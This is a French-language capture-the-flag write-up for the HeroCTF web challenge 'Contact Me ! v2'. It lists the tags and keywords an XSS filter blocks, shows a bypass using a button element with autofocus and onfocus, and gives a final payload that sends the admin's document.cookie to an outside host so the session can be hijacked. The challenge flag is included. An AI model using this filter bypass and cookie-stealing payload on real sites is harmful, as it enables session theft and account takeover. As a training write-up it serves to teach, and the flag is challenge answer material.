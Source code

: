 # Contact Me ! v2

### Catégorie

Web

### Description

Le petit développeur a bien compris la faille et a appliqué un patch.
Montrez que lui que, malgré ses efforts, ce n'est pas suffisant !

http://challs.heroctf.fr:3011/

Format : Hero{flag}

### Auteur

Worty

### Note de l'auteur

A noter qu'il existe plusieurs solutions pour flag ce challenge, ici, je n'en présenterai qu'une seule.

### Solution

Ici, nous savons que nous avons à faire à une faille de type XSS.<br/>
En revanche, l'admin a mis en place des restrictions pour se prévenir de celle-ci.

Ici, il va falloir procéder à des tests pour savoir ce que l'on a le droit de faire ou non:<br/>
- La balise <script> est interdite<br/>
- La balise <img> est interdite<br/>
- La balise <iframe> est interdite<br/>
- La balise <body> est interdite<br/>
- La balise <span> est interdite<br/>
- L'évènement "onerror" est interdit<br/>
- L'évènement "onload" est interdit<br/>
- Le caractère "+" est interdit<br/>
- La chaîne de caractère "XML" est interdite<br/>
- La fonction "open" est interdite<br/>
- La fonction "eval" est interdite<br/>
- La fonction "atob" est interdite<br/>
A noter que le script ne prend pas en compte la casse, donc même écrire ScRIpt ne marchera pas pour bypass la restriction.

Maintenant que nous savons tout ce qui est interdit, qu'est ce qu'il nous reste?
Il reste la balise <button>, l'attribut autofocus et onfocus.
"autofocus" va permettre de passer la balise <button> en focus, et donc, avec l'évènement onfocus, on va pouvoir exécuter du code javascript!

Payload : <button autofocus onfocus="alert(1)">, et magie, on a une belle alert qui se lancer quand la page se réactualise!

Il y a maintenant un autre problème, le caractère "+" est aussi interdit, on va devoir utiliser la fonction concat() de javascript.<br/>
Cette fonction s'applique aux objets de type String. Exemple "a".contact("b") donnera "ab".<br/>
C'est donc comme ceci que nous allons concaténer les cookies de l'admin à notre payload !.<br/>

Payload final : <button autofocus onfocus="window.location='https://worty.alwaysdata.net/cookies.php?c='.concat(document.cookie)" />

Pareil que pour le challenge précédent, je me connecte sur http://challs.heroctf.fr:3011/admin.php, je change mon cookie de session par celui de l'administrateur que j'ai récupéré, et j'actualise!

### Flag

Hero{htmlspecialchars_m4y_b3_y0ur_fr13nd_!!}